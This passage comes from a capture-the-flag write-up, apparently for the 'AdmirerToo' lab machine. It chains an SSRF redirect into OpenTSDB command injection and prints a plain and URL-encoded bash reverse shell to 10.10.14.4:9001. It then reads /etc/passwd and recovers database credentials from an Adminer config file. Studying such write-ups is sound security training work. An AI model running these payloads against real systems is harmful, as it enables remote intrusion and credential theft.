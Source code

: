 We get a response back:
```bash
["http.stats.web.hits"]
```

Let’s modify our redirect link accordingly:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27ping+-c+4+10.10.14.4%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```

Success! We get RCE!
![[admirertoo/images/image5.png]]

### RCE
Ok, now lets get a reverse shell. Make sure to put the payload inside single quotes and urlencode:
```bash
# ORIGINAL
'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.4/9001 0>&1"'

# URL ENCODED
%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%39%30%30%31%20%30%3e%26%31%22%27
```

Setup the redirector with our urlencoded command:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%39%30%30%31%20%30%3e%26%31%22%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```
 
 Start a netcat listener on port 9001, intercept the database login and modify the parameters to trigger the SSRF -> RCE and we are in:
 ![[admirertoo/images/image6.png]]

## Shell as opentsdb
From here we can get the `/etc/passwd` to check the users in the machine:
```bash
opentsdb@admirertoo:/$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
jennifer:x:1002:100::/home/jennifer:/bin/bash
```

We see there is a user called `jennifer`.

### Found credentials
Enumerating the machine we find credentials in the plugins directory of adminer:
```bash
opentsdb@admirertoo:/$ cat /var/www/adminer/plugins/data/servers.php     

<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
```